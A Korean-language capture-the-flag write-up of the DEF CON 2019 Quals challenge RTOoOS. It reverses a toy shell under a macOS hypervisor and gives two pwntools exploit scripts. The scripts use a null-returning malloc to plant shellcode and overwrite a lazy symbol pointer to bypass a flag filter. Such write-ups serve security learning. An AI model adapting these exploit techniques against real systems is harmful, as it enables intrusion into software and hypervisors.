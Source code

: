 ```yaml
---
layout: post
title: "DEF CON 2019 Quals / RTOoOS"
date: 2019-07-08 21:55:00 +0000
categories: CTF
---
```


# DEF CON 2019 Quals / RTOoOS

keyword: hypervisor, macOS

데프콘 예선 때, 종료 10분 전에 브루트포싱에 성공하여 플래그를 땄던 문제이다. 그 때 제대로 분석 못하고 얼렁뚱땅 넘어간 부분이 많아서 다시 분석해보았다. (브루트포싱 없이 풀 수 있을까 하고 다른 팀들 write-up을 찾아봤는데 다 똑같았다 ㅋㅋㅋ)

## Solution

### 유저 프로그램 분석

이 문제의 핵심은 리버싱이다.

```
➜  rtooos file crux
crux: data
```

data 파일을 제공하는데 IDA에 넣어서 코드로 분석할 수 있다. IDA로 보면 모든 함수가  `sub_xxx` 형식이다. 동적 디버깅도 못한다. 리모트로 연결해보면서 감으로 함수 리네이밍하면서 정적 분석을 해야 한다.

```
CS420 - Homework 1
Student: Kurt Mandl
Submission Stardate 37357.84908798814
[RTOoOS>
```

간단한 shell 프로그램이다. (대학생 과제를 모티브로 낸 문제인 것 같다.)

![image-20190708183914155](/assets/img/image-20190708183914155.png)

위는 export를 처리하는 부분이다. 환경변수라서 당연히 key-value 쌍으로 처리한다. 첫 for 루틴에서 기존에 존재하는 이름이 동일한 환경변수 값들을 모두 업데이트해준다. 그 후 두번째 for 루틴에서는 새로운 key-value 쌍을 추가해준다. (환경변수 특수 기호 `$`를 처리해주는 로직도 있는데 이를 통해 버퍼오버플로우를 낼 수도 있을 것 같았다. 하지만 exploit에 쓰지는 않았다.)

`value` 값은 `malloc`으로 메모리를 할당 받고 값이 써진다. `malloc`에서 이상한 점이 있다.

![image-20190708184328200](/assets/img/image-20190708184328200.png)

`null`값이 리턴될 수 있다는 것이다. 이렇게 되면 가상메모리 영역의 0x0번지에 값을 쓸 수 있게 된다. 하이퍼바이저에서 오프셋을 다르게 해놓는다면 문제를 못 풀게 되지만 다행스럽게도 오프셋을 다르게 해두진 않았다.

실제로 변수 a를 아무렇게나 할당하고

![image-20190708184808226](/assets/img/image-20190708184808226.png)

값을 출력하여 data 파일과 비교해보면

![image-20190708184830328](/assets/img/image-20190708184830328.png)

똑같다는 것을 알 수 있다.



![image-20190708184555226](/assets/img/image-20190708184555226.png)

0x100 번지에 어떤 함수가 하나 존재하고

![image-20190708184604068](/assets/img/image-20190708184604068.png)

이는 `malloc`에서 호출된다. 해당 메모리 영역에 write 권한과 execute 권한이 걸려있길 간절히 빌면서 이 영역에 쉘코드를 overwrite한다.

```python
from pwn import *
import time

#context.log_level='DEBUG'
context.arch="amd64"

shellcode = '''
//readFile(0x1508)
xor rax, rax
add rax, 0x1508
mov edi, 0x66
out dx, al
'''

shellcode = asm(shellcode)

payload  = "\x90"*0x100
payload += shellcode

p = process(['honcho', 'crux', '20'])

# allocate at 0x0
for i in xrange(7):
  p.sendlineafter("[RTOoOS> ", 'export a')

p.sendlineafter("[RTOoOS> ", 'export a=%s' % payload)

p.interactive()
```

![image-20190708185220099](/assets/img/image-20190708185220099.png)

이렇게 하이퍼바이저를 읽어올 수 있다.

### 하이퍼바이저 분석

하이퍼바이저의 핵심 코드는 다음과 같다.

![image-20190708185522466](/assets/img/image-20190708185522466.png)

하이퍼콜 형식으로 구성되어 있다. flag 파일을 읽으려고 하면 필터링해버린다. 이를 우회해줘야 한다. `strcasestr`의 lazy symbol pointer를 atoi로 변경하면 우회 가능하다.

하지만 지금은 코드 실행만 할 수 있을 뿐, 메모리 주소는 아는게 없다. 따라서 메모리 릭을 해야 하는데 여기서 브루트포싱이 약간 필요하다. 이 문제 환경에서만 그런지 모르겠지만, 몇번 테스트를 해보니 macOS에서는 code 영역과 heap 영역의 오프셋 차이가 고정이었다. (부팅 때마다 이 차이가 달라지는 것 같다.) `vm_mem` 값을 기준으로 브루트포싱을 수행하여 오프셋 차이를 계산하면 리모트 서비스의 코드영역 베이스 주소를 알 수 있게 된다. 이를 통해 lazy symbol pointer 테이블을 수정해주면 된다.

#### Exploit Code

```python
from pwn import *
import time

#context.log_level='DEBUG'
context.arch="amd64"

'''
seg000:0000000000001508 a2              db 'honcho',0
'''

vmemAddr = 0x100002318
bin_base = 0x100000000
vmem     = 0x100096000 # different offset between code & heap per booting.
atoi_got = 0x100002040
filt_got = 0x100002170

shellcode = '''
/*
//readFile(0x1508)
xor rax, rax
add rax, 0x1508
mov edi, 0x66
out dx, al
*/

// puts(atoi_got)
xor rax, rax
sub rax, %s
mov edi, 0x64
out dx, al

// read(0, filt_got, ...)
xor rax, rax
sub rax, %s
mov edi, 0x63
out dx, al

// read(0, flag, ...)
xor rax, rax
add rax, 0x1000
mov edi, 0x63
out dx, al

// ReadFile(flag)
xor rax, rax
add rax, 0x1000
mov edi, 0x66
out dx, al
''' % (hex(vmem - atoi_got), hex(vmem - filt_got))

shellcode = asm(shellcode)

payload  = "\x90"*0x100
payload += shellcode

p = process(['honcho', 'crux', '20'])

# allocate at 0x0
for i in xrange(7):
  p.sendlineafter("[RTOoOS> ", 'export a')

p.sendlineafter("[RTOoOS> ", 'export a=%s' % payload)
atoi = u64(p.recvuntil("\x7f\x0a")[-7:-1].ljust(8,"\x00"))
log.info("atoi = 0x%x" % atoi)

p.send(p64(atoi))
time.sleep(0.1)
p.send('flag\x00')

p.interactive()
```

#### Result

![image-20190708190242930](/assets/img/image-20190708190242930.png)
